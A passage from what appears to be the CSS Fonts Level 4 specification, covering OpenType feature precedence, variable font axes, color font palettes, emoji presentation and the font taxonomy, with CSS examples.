For OpenType fonts, user agents must enable the default features defined in the OpenType documentation for a given script and writing mode. Required ligatures, common ligatures and contextual forms must be enabled by default (OpenType features: rlig, liga, clig, calt), along with localized forms (OpenType feature: locl), and features required for proper display of composed characters and marks (OpenType features: ccmp, mark, mkmk). These features must always be enabled, even when the value of the `font-variant` and `font-feature-settings` properties is `normal`. Individual features are only disabled when explicitly overridden by the author, as when `font-variant-ligatures` is set to 'font-variant-ligatures/no-common-ligatures'.

For handling complex scripts such as [Arabic](https://www.microsoft.com/typography/otfntdev/arabicot/features.aspx), [Mongolian](https://www.microsoft.com/typography/otfntdev/mongolot/features.htm) or [Devanagari](https://www.microsoft.com/typography/otfntdev/devanot/features.aspx) additional features are required. For upright text within vertical text runs, vertical alternates (OpenType feature: vert) must be enabled.

#### 7.2.  Feature and variation precedence {#css-fonts-4:feature-variation-precedence}

General and font specific font feature property settings are resolved in the order below, in ascending order of precedence. This ordering is used to construct a combined list of font features that affect a given text run.

1. Font features enabled by default are applied, including features required for a given script. See [§ 7.1 Default features](#css-fonts-4:default-features) for a description of these.
2. Font variations as enabled by the `font-weight`, `font-width`, and `font-style` properties are applied.

   The application of the value enabled by `font-style` is affected by font selection, because this property might select an italic or an oblique font. The value applied is the closest matching value as determined by the [font matching algorithm](#css-fonts-4:font-style-matching). User agents must apply at most one value due to the `font-style` property; both "ital" and "slnt" values must not be set together.

   If the selected font is defined in an `@font-face` rule, then the values applied at this step should be clamped to the value of the `font-weight`, `font-width`, and `font-style` descriptors in that `@font-face` rule.

   Then, the values applied in this step should be clamped (possibly again) to the values that are supported by the font.
3. The language specified by the inherited value of lang/xml:lang is applied.
4. If the font is defined via an `@font-face` rule, the font language override implied by the `font-language-override` descriptor in the `@font-face` rule is applied.
5. If the font is defined via an `@font-face` rule, that `@font-face` rule includes at least one valid `font-named-instance` descriptor with a value other than 'font-named-instance/none', and the loaded font resource includes a named instance with that name according to the [§ 5.1 Localized name matching](#css-fonts-4:localized-name-matching) rules, then all the variation values represented by that named instance are applied. These values are clamped to the values that are supported by the font.
6. If the font is defined via an `@font-face` rule, the font variations implied by the `font-variation-settings` descriptor in the `@font-face` rule are applied.
7. If the font is defined via an `@font-face` rule, the font features implied by the `font-feature-settings` descriptor in the `@font-face` rule are applied.
8. The font language override implied by the value of the `font-language-override` property is applied.
9. Font variations implied by the value of the `font-optical-sizing` property are applied.
10. Font features implied by the value of the `font-variant` property, the related `font-variant` subproperties and any other CSS property that uses OpenType features (e.g. the `font-kerning` property) are applied.
11. Feature settings determined by properties other than `font-variant` or `font-feature-settings` are applied. For example, setting a non-default value for the `letter-spacing` property disables optional ligatures.
12. Font variations implied by the value of the `font-variation-settings` property are applied. These values should be clamped to the values that are supported by the font.
13. Font features implied by the value of `font-feature-settings` property are applied.

This ordering allows authors to set up a general set of defaults for fonts within their `@font-face` rules, then override them with property settings for specific elements. General property settings override the settings in `@font-face` rules and low-level font feature settings override `font-variant` property settings.

For situations where the combined list of font feature settings contains more than one value for the same feature, the last value is used. When a font lacks support for a given underlying font feature, text is simply rendered as if that font feature was not enabled; font fallback does not occur and no attempt is made to synthesize the feature except where explicitly defined for specific properties.

#### 7.3.  Feature precedence examples {#css-fonts-4:feature-precedence-examples}

> **Example:** With the styles below, numbers are rendered proportionally when used within a paragraph but are shown in tabular form within tables of prices:
>
> ```
> body {
>   font-variant-numeric: proportional-nums;
> }
>
> table.prices td {
>   font-variant-numeric: tabular-nums;
> }
> ```

> **Example:** The `@font-face` rule can also be used to access font features in locally available fonts via the use of `local()` in the `src` descriptor of the `@font-face` definition:
>
> ```
> @font-face {
>   font-family: BodyText;
>   src: local("HiraMaruPro-W4");
>   font-variant: proportional-width;
>   font-feature-settings: "ital"; /* Latin italics within CJK text feature */
> }
>
> body { font-family: BodyText, serif; }
> ```
>
> If available, a Japanese font "Hiragino Maru Gothic" will be used. When text rendering occurs, Japanese kana will be proportionally spaced and Latin text will be italicized. Text rendered with the fallback serif font will use default rendering properties.

> **Example:** In the example below, discretionary ligatures are enabled only for a downloadable font but are disabled within spans of class "special":
>
> ```
> @font-face {
>   font-family: main;
>   src: url(fonts/ffmeta.woff) format("woff");
>   font-variant: discretionary-ligatures;
> }
>
> body         { font-family: main, Helvetica; }
> span.special { font-variant-ligatures: no-discretionary-ligatures; }
> ```
>
> Suppose one adds a rule using `font-feature-settings` to enable discretionary ligatures:
>
> ```
> body         { font-family: main, Helvetica; }
> span         { font-feature-settings: "dlig"; }
> span.special { font-variant-ligatures: no-discretionary-ligatures; }
> ```
>
> In this case, discretionary ligatures *will* be rendered within spans of class "special". This is because both the `font-feature-settings` and `font-variant-ligatures` properties apply to these spans. Although the `no-discretionary-ligatures` setting of `font-variant-ligatures` effectively disables the OpenType "dlig" feature, because the `font-feature-settings` is resolved after that, the "dlig" value reenables discretionary ligatures.

### 8.  Font Variation Properties {#css-fonts-4:font-variation-props}

> **Note:** The technology in use in this section is named "font variations." An instance of one such font as a "variable font."

#### 8.1.  Optical sizing control: the `font-optical-sizing` property {#css-fonts-4:font-optical-sizing-def}

| Field | Value |
| --- | --- |
| Name: | **font-optical-sizing** |
| [Value:](#css-values-4:value-defs) | auto \| none |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | all elements and text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

Typographically, text rendered at different sizes often benefits from slightly different visual representations. For example, to aid reading at small text sizes, strokes are often thicker with larger serifs. Larger text often has a more delicate figure with more contrast between thicker and thinner strokes.

****auto****

: The user agent may modify the shape of glyphs based on the font-size and the pixel density of the screen. For OpenType and TrueType fonts using font variations, this is often done by using the "opsz" font variation.

****none****

: The user agent must not modify the shape of glyphs for optical size.


Each size of Century Expanded as it existed in analog metal form. The different optical sizes, normalized here to the same physical size, have design variations to maintain stylistic traits and improve readability.

`font-size` must be considered when selecting a variation value for the "opsz" axis, but other signals may also be considered.

> **Note:** User agents are expected to supply a value for the "opsz" axis which is close to the used value for `font-size`. However, user agents might wish to consider other factors such as pixel density of the screen, or the solid angle the text subtends in the viewer’s retina. [Experiments have shown](https://github.com/w3c/csswg-drafts/issues/807#issue-195683688), however, that disregarding these other ancillary factors and using only `font-size` might be the best way for a user agent to select this value.

Pixel density as well as visual size of the text may influence the variation value chosen for `font-optical-sizing`. When either pixel density or visual size of the text changes in response to a user operation or style change, user agents must not choose a new value for this variation value unless the change is layout-causing. User agents are free to determine which changes are layout-causing.

> **Note:** Some user operations, such as pinch-zoom, can be considered not-layout-causing if they do not cause text to reflow. However, other user operations, such as increasing text size for accessibility purposes, can be considered layout-causing because they cause text to reflow. Similarly, the `transform` property can be considered not-layout-causing because transforms generally do not cause text to reflow. Each user-agent is free to decide whether or not each operation is layout-changing or not.

User agents must not synthesize optical sizing when it is not performed by the font directly.

User agents must not select a value for the "opsz" axis which is not supported by the font used for rendering the text. This can be accomplished by clamping a chosen value to the range supported by the font.

`font-optical-sizing` interacts with `font-size-adjust`. When applying optical sizing, User agents must apply an optical sizing value appropriate for the adjusted font size, subject to the above restrictions.

#### 8.2.  Low-level font variation settings control: the `font-variation-settings` property {#css-fonts-4:font-variation-settings-def}

| Field | Value |
| --- | --- |
| Name: | **font-variation-settings** |
| [Value:](#css-values-4:value-defs) | normal \| [ `<opentype-tag>` `<number>` ]# |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | all elements and text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | the keyword `normal` or a list, each item a string paired with a number |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | see prose |

This property provides low-level control over OpenType or TrueType font variations. It is intended as a way of providing access to font variations that are not widely used but are needed for a particular use case.

> **Advisement:** Authors should *not* use `font-variation-settings` to set any of the variation axes in the table below. Instead, please use the higher-level replacement properties, because:
>
> 1. The higher-level properties cascade individually. You can set one without setting the whole `font-variation-settings` list
> 2. Some higher-level properties can be synthesized for fonts that do not support the font variation.
>
> | If you want to set this variation axis | then use this *instead of* `font-variation-settings` | Notes |
> | --- | --- | --- |
> | Weight (`wght`) | `font-weight` | The `font-weight` property will set the `wght` axis if one is present. |
> | Width (`wdth`) | `font-width` | The `font-width` property will set the `wdth` axis if one is present. |
> | Slant (`slnt`) or Italic (`ital`) | `font-style` | The `font-style` property will set the `slnt` or `ital` axis, depending on its value. |
> | Optical size (`opsz`) | `font-optical-sizing` | The `font-optical-sizing` property will set the `opsz` axis if one is present. |

The use of font variation settings does not affect font selection where a fallback font is to be used, where using font properties for the same axis would have an effect on font selection.

When possible, authors should generally use the other properties related to font variations (such as `font-optical-sizing`), and only use this property for special cases where its use is the only way of accessing a particular infrequently used font variation.

For example, it is preferable to use `font-weight`: 700 rather than `font-variation-settings`: "wght" 700.

A value of `normal` means that no change in glyph shape, matching, or positioning occurs due to this property.

The `<opentype-tag>` is a case-sensitive OpenType or TrueType variation axis name. As specified in the OpenType / TrueType specifications, axis names contain four ASCII characters. Axis name strings longer or shorter than four characters, or containing characters outside the U+20–7E codepoint range are invalid. Axis names need only match an axis tag defined in the font, so they are not limited to explicitly registered OpenType / TrueType variation axes. Fonts defining custom axis names should follow the [name rules](https://www.microsoft.com/typography/otspec/fvar.htm) defined in the OpenType specification.

If a given axis is not supported by a font, its value setting is ignored and therefore has no effect; a user agent must not attempt to synthesize fallback behavior based on these axis tags. Other axis values within the same CSS `font-variation-settings` statement are not ignored.

If a variation axis is supported by a font but its set value is greater or less than the predefined font range, it will be clamped to the closest value supported by the font.

Values are allowed to be fractional or negative.

> **Note:** it is preferable to obtain slanted faces by using the `font-style` property. However, if using the `slnt` axis directly, via `font-variation-settings`, remember that it is defined with a positive angle meaning a counter-clockwise slant, the opposite direction to CSS.

If the same axis name appears more than once, the value associated with the last appearance supersedes any previous value for that axis. This deduplication is observable by accessing the computed value of this property.

The computed value contains the de-duplicated axis names, sorted in ascending order by code unit.

Although specifically defined for OpenType / TrueType variations, variation axes for other modern font formats that support font variations might be added in the future. Where possible, variations defined for other font formats should attempt to follow the pattern of registered variation axes.

Animating font-variation-settings is possible using the following mechanism. Two declarations of font-feature-settings can be animated between if they are "like". "Like" declarations are ones where the same set of properties appear (in any order). Because successive duplicate properties are applied instead of prior duplicate properties, two declarations can be "like" even if they have differing number of properties. If two declarations are "like" then animation occurs pairwise between corresponding values in the declarations. Otherwise, animation is not possible. In this situation, the "from" values of the animation are swapped to the "to" values at an unspecified time during the animation.

### 9.  Color Font Support {#css-fonts-4:color-font-support}

Color fonts allow for font files to describe, not just the contours describing the edges of glyphs, but also the colors present inside the glyphs.


Multicolore, by Ivan Filipov


Magical Unicorn Neue Pro, by Arthur Reinders Folmer


Reem Kufi Ink, by Khaled Hosny and Santiago Orozco

For some uses, such as emoji, having the colors fixed in the font is appropriate. For others, there is a need to control the colors used from a stylesheet.

CSS provides two ways to do this. The `font-palette` property allows selecting one of several different palettes contained in the font. The `@font-palette-values` rule allows overriding one or more colors from within a palette or even the creation of an entirely different palette.

#### 9.1.  Controlling Color Font Palettes: The `font-palette` property {#css-fonts-4:font-palette-prop}

Many color font file formats allow colors within glyphs to be parameterized. In these fonts, colors are referenced by index when describing the geometry of each glyph. These indices are resolved within a current active palette using a lookup table present inside the font. However, many fonts contain multiple palettes, each containing a set of complementary colors chosen by the font designer to provide pleasing visual results.

In addition, some color font file formats provide a regular, uncolored glyph outline as well as the colored versions.

| Field | Value |
| --- | --- |
| Name: | **font-palette** |
| [Value:](#css-values-4:value-defs) | normal \| light \| dark \| `<palette-identifier>` \| `<palette-mix()>` |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | all elements and text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword, identifier or `<palette-mix()>` function. <palette-mix()> must be simplified to a single keyword or identifier if resulting palette is equivalent. |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |

With the **palette-mix()** function defined as follows:

```css
<palette-mix()> = palette-mix( <color-interpolation-method>? ,
    [ <'font-palette'> && <percentage [0,100]>? ]# )
```

****normal****

: If the `color-scheme` property is set to a value other than `normal`', user-agents should select the first light or dark palette as appropriate. Otherwise, user-agents display the color font with the default palette or default glyph colorisation.

  User-agents should take the computed value of the `color` property into consideration when a color font format requires use of the foreground color

  > **Example:** In the `COLR` [OPENTYPE] table, color index 0xFFFF should be rendered according the `color` property.

  > **Example:** For `COLR`/`CPAL` [OPENTYPE] fonts, `font-palette`: `normal` usually means rendering the font with the palette in the font at index 0.

****light****

: Some color font formats include metadata marking certain palettes as applicable on a light (close to white) background. This keyword causes the user-agent to use the first available palette in the font file marked this way. If the font file format does not account for this metadata, or no palette in the font is marked this way, this value behaves as `normal`.

****dark****

: Some color font formats include metadata marking certain palettes as applicable on a dark (close to black) background. This keyword causes the user-agent to use the first available palette in the font file marked this way. If the font file format does not account for this metadata, or no palette in the font is marked this way, this value behaves as `normal`.

****`<palette-identifier>`****

: This value identifies an CSS-defined palette to use. Users can define a palette by using the `@font-palette-values` rule. If no applicable `@font-palette-values` rule is present, this value behaves as `normal`.

  `<palette-identifier>` is parsed as a `<dashed-ident>`.

  > **Note:** Such a CSS-defined palette may be a reference to an existing palette already present in the font, be a modification of an existing palette already present in the font, or be an entirely new palette.

****`<palette-mix()>`****

: This value defines a position in the interpolation between **one or more** palette values, identified by `<palette-identifier>`, by the palette keywords `normal`, `light`, `dark`, or by another `<palette-mix()>` value.

  The glyphs of the font must be rendered with a palette that is created by interpolating, per [CSS Color 4 §  13. Color Interpolation](#css-color-4:interpolation), for each palette color index, between the matching color indices of the list of palettes specified as arguments, recursively resolving `<palette-mix()>` functions if needed.

  For each palette color, the interpolation follows the rules of the `<color-mix()>` function.

  Percentages are normalized according to [CSS Color 5 § 3.2 Percentage Normalization](#css-color-5:color-mix-percent-norm).

> **Note:** The names `light`' and `dark` describe the *background* the color palette is usable on, not the colors in the color palette themselves.

> **Example:** When dark mode is in effect, use a dark mode palette
>
> ```
> @media (prefers-color-scheme: dark) {
>         .banner {font-palette: dark;
>       }
>     }
> ```

> **Example:** A font has a dark mode palette with the following three entries:
>
> 1. #eee8aa
> 2. #dd4541
> 3. #72342e
>
> In addition, there are two custom palettes defined, one called "--warm":
>
> 1. oklch(85% 0.14 88)
> 2. oklch(62% 0.13 28)
> 3. oklch(32% 0.05 29.6)
>
> and one called "--soft":
>
> 1. color(display-p3 0.89 0.89 0.76)
> 2. color(display-p3 0.75 0.55 0.55)
> 3. color(display-p3 0.508 0.435 0.422)
>
> this palette mix:
>
> ```css
> font-palette: palette-mix(dark 20%, --warm 45%, --soft);
> ```
>
> will create the following palette (the percentage of --soft is omitted, so it is 35%, and the color interpolation method is omitted, so it is `oklab`):
>
> 1. oklab(88.389% -0.00651 0.09474)
> 2. oklab(64.379% 0.11148 0.05236)
> 3. oklab(42.124% 0.04469 0.02408)

> **Example:** Animate between palettes.
>
> ```
> @font-palette-values --pink {
>   font-family: Nabla;
>   base-palette: 1;
> }
>
> @font-palette-values --yellow {
>   font-family: Nabla;
>   base-palette: 7;
> }
>
> @keyframes animate-palette {
>   from {
>     font-palette: --yellow;
>   }
>   to {
>     font-palette: --pink;
>   }
> }
>
> p {
>   font-family: Nabla;
>   animation: animate-palette 1.4s infinite alternate linear;
> }
> ```
>
> 
>
> Nabla Color by typearture.com - animating between palettes 1 and 7 in the font.

> **Issue:** Add more examples and pictures.

#### 9.2.  User-defined font color palettes: The `@font-palette-values` rule {#css-fonts-4:font-palette-values}

The **@font-palette-values** rule defines a color palette and associates that color palette with a specific font. This allows a web author to select arbitrary `<color>`s to use inside a color font rather than being limited to the preexisting palettes inside font files.

> **Note:** The OpenType `CPAL` table is restricted to sRGB colors. The `<color>`s in `@font-palette-values` allow any CSS color. Some implementations currently use APIs which are restricted to sRGB and may therefore map the specified colors to sRGB. This is expected to be a temporary limitation. Authors should not rely on this mapping to sRGB.

In addition, this rule’s association with a specific font allows a name of a palette to apply differently to different fonts, which allows similar colors to be used across multiple fonts when multiple fonts are used in an element (i.e. for font fallback).

> **Note:** A web author might wish to create multiple palettes for a single font in order to create multiple themes for their web content. A web author might also wish to create matching palettes for multiple fonts to achieve a consistent design across a collection of different fonts.

A `@font-palette-values` rule represents a palette of colors used in a font. A palette consists of an ordered collection of colors. Using the `@font-palette-values` allows a web author to reference a palette existing within a font as well as creating a palette populated with author-defined colors. In addition, it allows overriding a set of colors from a palette in the font with colors described by the web author.

A palette is always *complete*, meaning that it is impossible to describe a palette which has missing colors. If colors would be missing, they are taken from the palette within the font identified by the `base-palette` descriptor.

Math functions, such as `calc()`, and also `var()`, and `env()`, are valid within descriptor values in a `@font-palette-values` rule. They are evaluated within the context of the root element. Relative units are also evaluated within the context of the root element.

The `@font-palette-values` rule consists of the `@font-palette-values` at-keyword followed by a block of descriptor declarations. It has the following syntax:

```css
@font-palette-values <dashed-ident> {
  <declaration-list>
}
```

The `@font-palette-values` rule accepts the descriptors defined in this specification.

If multiple `@font-palette-values` rules are defined with the same name, the last one in document order wins, and all preceding ones are ignored.

> **Example:** Modify Bixa Color’s color palette.
>
> ```
> @font-palette-values --Cooler {
>   font-family: Bixa;
>   base-palette: 1;
>   override-colors:
>     1 #7EB7E4;
> }
> ```
>
> 
>
> Bixa Color by Novo Typo. Above, using the colors in the font; below, the orange changed to a blue.

> **Example:** Modify Handover Sans’s color palette
>
> ```
> @font-palette-values --Augusta {
>   font-family: Handover Sans;
>   base-palette: 3;
>   override-colors:
>     1 rgb(43, 12, 9),
>     3 var(--highlight);
> }
> ```

These descriptors apply solely within the context of the `@font-palette-values` rule in which they are defined, and do not apply to document language elements. When a given descriptor occurs multiple times in a given `@font-palette-values` rule, only the last descriptor declaration is used and all prior declarations for that descriptor are ignored.

Each of these palettes are applied to each @font-face that share a family name.

> **Example:** I want to use two color fonts in a greenish palette. The first font, Bixxxa, already has palette that I can use, but for Bungeehee I need to overwrite one color to get my green palette.
>
> ```css
> @font-face {
>   font-family: Bixxxa;
>   src: url('./bixxxa.woff') format('woff');
> }
>
> @font-face {
>   font-family: Bungeehee;
>   src: url('./bungeehee.woff') format('woff');
> }
>
> @font-palette-values --ToxicGreen {
>   font-family: Bixxxa;
>   base-palette: 3; /* This is Bixxxa's green palette */
> }
>
>
> @font-palette-values --ToxicGreen {
>   font-family: Bungeehee;
>   base-palette: 7; /* This is Bungeehee's green palette... */
>   override-colors: 2 lime; /* ...except this is pink, which I overwrite to lime */
> }
>
> h1 {
>   font-family: Bixxxa;
>   font-palette: --ToxicGreen;
> }
>
> h2 {
>   font-family: Bungeehee;
>   font-palette: --ToxicGreen;
> }
> ```
>
> *Example by Roel Nieskens*

> **Note:** In the case where a family name is shared between multiple physical fonts, (such as when a compound font is created, using `unicode-range`), and if those fonts have different palettes, the result of specifying a partial palette using `@font-palette-values` is unlikely to be what the author intended. In this case, it is better to supply a complete palette definition.

> **Example:** In the above example, since two different font families have been set up to have compatible named palettes, one could go on to write
>
> ```css
> h3 {
>   font-family: Bixxxa, Bungeehee;
>   font-palette: --ToxicGreen;
> }
> ```
>
> Which would correctly apply the desired palette in each font even though they have different palette numbers.

A given set of `@font-palette-values` rules define which author-defined palettes are available for use within the documents that contain these rules.

An author-defined font color palette must only be available to the documents that reference it. Using an author-defined color palette outside of the documents that reference it would constitute a security leak since the contents of one page would be able to affect other pages, something an attacker could use as an attack vector.

This at-rule follows the forward-compatible parsing rules of CSS. Like properties in a declaration block, declarations of any descriptors that are not supported by the user agent must be ignored. `@font-palette-values` rules require a `font-family` descriptor; if it is missing, the `@font-palette-values` rule is invalid and must be ignored entirely.

In cases where user agents have limited platform resources, do not implement support for color fonts, or implement the ability to disable color fonts, `@font-palette-values` rules must simply be ignored; the behavior of individual descriptors as defined in this specification should not be altered.

##### 9.2.1.  Font family: the `font-family` descriptor {#css-fonts-4:font-family-2-desc}

| Field | Value |
| --- | --- |
| Name: | **font-family** |
| For: | `@font-palette-values` |
| Value: | `<font-family-name>`# |
| Initial: | N/A |

This descriptor defines the font families that this palette applies to, using the same list of font families as [§ 5 Font Matching Algorithm](#css-fonts-4:font-matching-algorithm). This palette will only ever be applied to the fonts with these family names. The value of this descriptor means that only named font families are allowed and rules that include generic fonts in the list of font families are syntax errors. If syntax errors occur within the font family list, the descriptor must be ignored (will still be in the CSS OM, but will not match any font families).

##### 9.2.2.  Specifying the base palette: the `base-palette` descriptor {#css-fonts-4:base-palette-desc}

| Field | Value |
| --- | --- |
| Name: | **base-palette** |
| For: | `@font-palette-values` |
| Value: | light \| dark \| `<integer [0,∞]>` |
| Initial: | N/A |

****light****

: Some color font formats include metadata marking certain palettes as applicable on a light (close to white) background. This keyword identifies the first available palette in the font file marked this way. If the font file format does not account for this metadata, or no palette in the font is marked this way, this value behaves as 0.

****dark****

: Some color font formats include metadata marking certain palettes as applicable on a dark (close to black) background. This keyword identifies the first available palette in the font file marked this way. If the font file format does not account for this metadata, or no palette in the font is marked this way, this value behaves as 0.

****`<integer [0,∞]>`****

: Identifies a (zero-based) numerical palette index within the font.

> **Example:** Modify Banner Flag’s color palette
>
> ```
> @font-palette-values --Festival {
>   font-family: Banner Flag;
>   base-palette: 1;
>   override-colors:
>     0 rgb(123, 64, 27),
>     1 darkblue,
>     2 var(--highlight);
> }
> ```

This descriptor specifies a palette in the font which the containing `@font-palette-values` rule uses as an initial value. If no `override-colors` key is present in the `@font-palette-values` rule, then the `@font-palette-values` rule represents the palette in the font with the same index as the value of this descriptor. If a `override-colors` key is present in the `@font-palette-values` rule, each item in the value of that descriptor overrides a single color in the color palette represented by this `@font-palette-values` block.

> **Example:** Rename Handover Sans’s 3rd color palette
>
> ```
> @font-palette-values --Augusta {
>   font-family: Handover Sans;
>   base-palette: 3;
> }
> ```

If this descriptor is not present in the `@font-palette-values`, or if the font does not contain a palette at the index of the value of `base-palette`, it behaves as if `0` were specified. If a font does not contain any color palettes, no colors are included in the initial color palette represented by this `@font-palette-values` rule. Colors in the palette can be overridden by using the `override-colors` descriptor in the `@font-palette-values` rule.

##### 9.2.3.  Overriding a colors from a palette: The `override-colors` descriptor {#css-fonts-4:override-color}

| Field | Value |
| --- | --- |
| Name: | **override-colors** |
| For: | `@font-palette-values` |
| Value: | [ `<integer [0,∞]>` `<color>` ]# |
| Initial: | N/A |

This descriptor overrides colors to the initial color palette represented by this `@font-palette-values` rule.

The `override-colors` descriptor takes a comma-separated list of palette index entries and colors. Each item in the comma-separated list represents a tuple of an entry into the palette and a color to replace it with.

Each specified `<color>` must be an absolute color, otherwise the descriptor is invalid.

For each key/value pair in the value of this descriptor, the color with that key in the initial palette (i.e. by using the `base-palette` descriptor) is overwritten by the color specified in this descriptor’s value. A key that is outside the range of indices of the initial palette is ignored, but does not make the descriptor invalid.

Palette index entries in the `override-colors` descriptor are a (zero-based) palette index entry.

Integer values are zero-indexed.

If the keys of multiple distinct key/value pairs identify the same color index (either by name or by integer), the last key is used for the purposes of rendering. However, for serialization purposes, both key/value pairs are present.

> **Note:** This means that using `font-palette` with the same value on two different elements might result in different used palettes because the value of variables inside the `@font-palette-values` rule might apply differently in the context of those two elements.

Colors provided from CSS (as overrides, or as new entries) may use any supported colorspace.

> **Example:** Modify Blaka Ink’s color palette
>
> ```
> @font-palette-values --Festival {
>   font-family: Blaka Ink;
>   base-palette: 0;
>   override-colors:
>     0 oklch(0.63 0.12 105.7),
>     1 color(display-p3 0.23 0.22 0.04),
>     2 color(prophoto-rgb 0.37 0.27 0.09);
> }
> ```

> **Note:** The colors specified in versions 0 and 1 of the CPAL table are in sRGB.

#### 9.3.  Selecting the text presentation style: The `font-variant-emoji` property {#css-fonts-4:font-variant-emoji-prop}

| Field | Value |
| --- | --- |
| Name: | **font-variant-emoji** |
| [Value:](#css-values-4:value-defs) | normal \| text \| emoji \| unicode |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | all elements and text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property allows web authors to select whether emoji presentation or text presentation is used for certain emoji code points. Traditionally, these presentation styles were selected by appending Variation Selector 15 (U+FE0E) or Variation Selector 16 (U+FE0F) to certain code points. However, `font-variant-emoji` allows web authors to set a default presentation style which can replace the variation selectors.

Only the code points [listed](http://www.unicode.org/emoji/charts/emoji-variants.html) by Unicode as contributing to a Unicode emoji presentation sequence are affected by this property. Within this CSS specification, these characters are referred to as **Emoji Presentation Participating Code Points**. This property has no effect on any other characters.

This property is expected to affect font fallback; however, the exact nature of the interaction of font fallback with `font-variant-emoji` is explicitly unspecified. However, a variation selector must be included in a previous cluster as defined by the [cluster matching](#css-fonts-4:cluster-matching) section above. A natural result of this behavior is that a variation selector must not be rendered in a different font than the previous character. It thus causes font fallback to behave as if the respective variation selector was intended (as in the values description); then font fallback, including the cluster fallback rules, is performed, which must take the presentation preference of these "appended" variation selectors into account.

Even when `font-variant-emoji` is used, the presence of Variation Selector 15 (U+FE0E) or Variation Selector 16 (U+FE0F) in the contents of an element override the rendering specified in `font-variant-emoji`. Therefore, `font-variant-emoji` sets a default presentation which the text being rendered can opt out of.

> **Note:** Different platforms have different conventions about how to handle emoji presentation sequences. A cross-platform UA might wish to follow the conventions of each individual platform, or it might wish to use the same approach on all platforms. When tasked with a request for an emoji style rendering, a UA might wish to disregard fonts which do not include color tables. A different UA might wish instead to use the same mechanical cluster fallback algorithm that it would use for any arbitrary cluster.

Variation selectors other than FE0E VARIATION SELECTOR-15 and U+FE0F VARIATION SELECTOR-16 must not have any effect on font selection. If one of these variation selectors is present, but unsupported by the font previously selected, the variation selector is ignored.

BCP47’s `-u-` extension to the language tag accepted by `lang` or `xml:lang` should not be considered when the user-agent decides whether to use emoji presentation or text presentation for a particular character.

****normal****

: User agents can choose to draw a Emoji Presentation Participating Code Point in either emoji style or text style. User agents typically follow platform conventions when performing this decision.

****text****

: Code points are rendered as if U+FE0E VARIATION SELECTOR-15 was appended to every Emoji Presentation Participating Code Point.

****emoji****

: Code points are rendered as if U+FE0F VARIATION SELECTOR-16 was appended to every Emoji Presentation Participating Code Point.

****unicode****

: Code points are rendered in accordance with [UTS51] as either emoji-default, text-default, or text-only, depending on the values of the Emoji and Emoji_Presentation properties for each Emoji Presentation Participating Code Point. If present, FE0E VARIATION SELECTOR-15 and U+FE0F VARIATION SELECTOR-16 will override the default presentation of individual Emoji Presentation Participating Code Points.

> **Example:** To show the emoji form of U+1F6CB COUCH AND LAMP, let CustomEmoji.ttf obey the user agent’s notion of supporting the emoji form of this character, and use the following:
>
> ```
> @font-face {
>   font-family: "Custom Emoji";
>   src: url("CustomEmoji.ttf") format("truetype");
> }
> ...
> <div style="font-family: 'Custom Emoji'; font-variant-emoji: emoji;">&#x1F6CB;</div>
> ```

### 10.  Font Taxonomy {#css-fonts-4:font-taxonomy}

A given font may belong in one or more of the following categories:

#### 10.1.  Installed Fonts {#css-fonts-4:installed-fonts}

A font may be installed globally on a device. Such fonts are generally accessible in any application, even applications which have no concept of CSS. The file or files backing the font object exist on the user’s device, not as a remote resource.

Installed Fonts must not be Web Fonts, and Web Fonts must not be Installed Fonts.

#### 10.2.  Web Fonts {#css-fonts-4:web-fonts}

A font may be backed by a remote resource, which must be requested using the user agent’s resource fetching infrastructure. Web Fonts are represented by one of two mechanisms:

- `@font-face` rules
- A `FontFace` member of the Document’s `FontFaceSet`

A Web Font must not be accessible in any other Document from the one which either is associated with the `@font-face` rule or owns the `FontFaceSet`. Other applications on the device must not be able to access Web Fonts.

Installed Fonts must not be Web Fonts, and Web Fonts must not be Installed Fonts.

Web Fonts shadow Installed Fonts, so if an Installed Font has the same family name as a Web Font, the Installed Font is not accessible.

#### 10.3.  Preinstalled Fonts and User-Installed Fonts {#css-fonts-4:preinstalled-and-user-installed-fonts}

Users can choose to install fonts on their devices. User-Installed Fonts are installed by an explicit action by the user, such as clicking an "Install" button or copying a file into a particular directory on their device. Such fonts are User-Installed Fonts and also are Installed Fonts. Web content authors should not count on the presence of user-installed fonts, because there is no guarantee any user will have performed the action to install a specific font.

Please see the [Font Matching Algorithm](#css-fonts-4:font-matching-algorithm) description of how user-installed fonts may interact with the font matching algorithm.

Any Installed Font which is not a User-Installed font is a Preinstalled Font. It is likely that all users of a particular version of a particular Operating System will have the same set of Preinstalled Fonts installed. As such, Web content authors targeting these Operating Systems may wish to use these fonts' family names inside `font-family` properties.

#### 10.4.  System Font {#css-fonts-4:system-font}

The System Font is the font which is used by the `system-ui` [generic font family name](#css-fonts-4:system-ui-def). It is an example of a Preinstalled Font.

Additional font styles may also be provided as `ui-sans-serif`, `ui-serif`, `ui-monospace`, and `ui-rounded` which are also Preinstalled Font(s) if the system provides them.

### 11.  Font Technologies and Formats {#css-fonts-4:font-technologies-formats}

#### 11.1. Font tech {#css-fonts-4:font-tech-definitions}

